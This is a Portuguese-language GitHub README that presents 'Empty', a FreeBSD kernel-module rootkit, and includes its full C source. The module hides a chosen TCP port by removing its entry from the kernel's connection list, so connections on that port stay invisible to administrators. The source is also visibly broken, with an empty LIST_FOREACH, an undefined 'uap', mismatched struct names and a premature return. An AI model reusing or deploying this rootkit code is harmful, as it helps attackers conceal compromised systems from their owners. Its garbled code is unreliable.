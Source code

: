 <img width="30%" src="https://i.imgur.com/ULwPfn3.png"></img>

# Empty
[Empty](https://github.com/xnwm0/empty), foi um projeto que eu fiz quando estava estudando bsd-rootkit<br><br>

Basicamente, o que ele faz é parecido com o que o [lowlife](https://github.com/xnwm0/lowlife) faz, porém fiz um sistema de input em bash para o usuário especificar a porta que quer esconder.<br>
O que esse driver faz, é carregar a port list, e remover a porta dessa lista, assim mesmo que exista uma conexão estabelecida nessa determinada porta ela não é exibida<br><br>

empty.c
```c
/*
 *  by kosu @ greetz lowlife         $
 *  based on design bsd rootkits     $
 *                                  */


/* --- kld libs --- */
#include<sys/errno.h>
#include<sys/kernel.h>
#include<sys/module.h>
#include<sys/systm.h>
#include<sys/param.h>
#include<sys/types.h>
#include<sys/proc.h>
#include<sys/cdefs.h>
#include<sys/sysent.h>
#include<sys/queue.h>
#include<sys/socket.h>

/* --- network libs --- */
#include<net/if.h>
#include<netinet/in.h>
#include<netinet/in_pcb.h>
#include<netinet/ip_var.h>
#include<netinet/tcp_var.h>

/* --- config --- */

#include "conf/config.h"

struct empty_hide_arg { u_int16_t lport = w00t; };

static int empty_hide(struct thread *td, void *sysc_arg)
{
  struct empty_hide_args *empt;
  empt = (struct empty_hide_args *)sysc_arg;

  struct inpcb *inp_;

  INP_INFO_WLOCK(&tcbinfo);

  /* --- list --- */

  LIST_FOREACH()
  {
    if ( inp_->inp_vflag & INP_TIMEWAIT ) continue;
    INP_LOCK(inp_);

    /* --- remove port from list ;p (hide) --- */
    if (uap->lport == htons(inp_->inp_inc.inc_ie.ie_lport)) LIST_REMOVE(inp_, inp_list); INP_UNLOCK(inp_);
    return(0);
  }
}

static struct sysent empty_hide_sysent = { 1, empty_hide }; /* sysent for empty_hide */
static int offset = NO_SYSCALL;

/* --- empty loader --- */

static int empty(struct module *m, int cmd, void *arg)
{
  int err = 0;

  switch(cmd)
  {
    case MOD_LOAD:
      uprintf(" * Ok! empty KLD loaded on offset: %d *\n", offset);
      break;

    case MOD_UNLOAD:
      uprintf(" * Ok! empty KLD unloaded from offset: %d.\n", offset);
      break;

    default:
      err = EOPNOTSUPP;
      break;
  }

  return(err);

}

SYSCALL_MODULE(empty, &offset, &empty_hide_sysent, empty, NULL); /* --- load sysent  --- */
```

## Hook
Aqui que acontece o hook `if (uap->lport == htons(inp_->inp_inc.inc_ie.ie_lport)) LIST_REMOVE(inp_, inp_list); INP_UNLOCK(inp_);`<br>
Nessa linha, se a porta for encontrada na list, a função `LIST_REMOVE` remove ela, assim toda vez que for estabelecida uma conexão, esse driver deleta a porta da list, e nenhum usuário pode encontrar essa porta por meio de qualquer comando<br><br>

[pwn](../README.md)<br>
[home](../../README.md)
